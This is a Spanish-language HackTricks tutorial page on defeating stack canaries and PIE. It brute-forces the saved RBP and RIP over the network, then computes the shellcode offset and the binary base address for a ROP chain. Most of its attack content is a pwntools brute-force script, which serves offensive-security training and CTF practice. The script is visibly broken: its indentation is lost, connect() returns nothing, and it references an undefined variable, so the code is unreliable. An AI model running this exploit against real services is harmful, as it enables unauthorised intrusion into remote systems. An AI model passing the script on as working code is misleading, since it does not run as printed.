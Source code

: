 # BF Addresses in the Stack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Si te enfrentas a un binario protegido por un canario y PIE (Ejecutable Independiente de la Posición), probablemente necesites encontrar una manera de eludirlos.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
Ten en cuenta que **`checksec`** puede no encontrar que un binario está protegido por un canario si este fue compilado estáticamente y no es capaz de identificar la función.\
Sin embargo, puedes notar esto manualmente si encuentras que un valor se guarda en la pila al comienzo de una llamada a función y este valor se verifica antes de salir.
{% endhint %}

## Brute-Force Addresses

Para **eludir el PIE** necesitas **filtrar alguna dirección**. Y si el binario no está filtrando ninguna dirección, lo mejor que puedes hacer es **fuerza bruta el RBP y RIP guardados en la pila** en la función vulnerable.\
Por ejemplo, si un binario está protegido usando tanto un **canario** como **PIE**, puedes comenzar a forzar bruta el canario, luego los **siguientes** 8 Bytes (x64) serán el **RBP** guardado y los **siguientes** 8 Bytes serán el **RIP** guardado.

{% hint style="success" %}
Se supone que la dirección de retorno dentro de la pila pertenece al código binario principal, que, si la vulnerabilidad se encuentra en el código binario, generalmente será el caso.
{% endhint %}

Para forzar bruta el RBP y el RIP del binario, puedes deducir que un byte adivinado válido es correcto si el programa produce algo o simplemente no se bloquea. La **misma función** que se proporciona para forzar bruta el canario se puede usar para forzar bruta el RBP y el RIP:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Lo último que necesitas para derrotar el PIE es calcular **direcciones útiles a partir de las direcciones filtradas**: el **RBP** y el **RIP**.

Desde el **RBP** puedes calcular **dónde estás escribiendo tu shell en la pila**. Esto puede ser muy útil para saber dónde vas a escribir la cadena _"/bin/sh\x00"_ dentro de la pila. Para calcular la distancia entre el RBP filtrado y tu shellcode, simplemente puedes poner un **punto de interrupción después de filtrar el RBP** y verificar **dónde se encuentra tu shellcode**, luego, puedes calcular la distancia entre el shellcode y el RBP:
```python
INI_SHELLCODE = RBP - 1152
```
Desde el **RIP** puedes calcular la **dirección base del binario PIE**, que es lo que necesitarás para crear una **cadena ROP válida**.\
Para calcular la dirección base, simplemente haz `objdump -d vunbinary` y verifica las últimas direcciones desensambladas:

![](<../../../.gitbook/assets/image (479).png>)

En ese ejemplo, puedes ver que solo se **necesitan 1 Byte y medio** para localizar todo el código, entonces, la dirección base en esta situación será el **RIP filtrado pero terminando en "000"**. Por ejemplo, si filtraste `0x562002970ecf`, la dirección base es `0x562002970000`
```python
elf.address = RIP - (RIP & 0xfff)
```
## Mejoras

Según [**algunas observaciones de esta publicación**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), es posible que al filtrar los valores de RBP y RIP, el servidor no se bloquee con algunos valores que no son los correctos y el script de BF pensará que obtuvo los buenos. Esto se debe a que **algunas direcciones simplemente no lo romperán incluso si no son exactamente las correctas**.

Según esa publicación de blog, se recomienda agregar un breve retraso entre las solicitudes al servidor.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
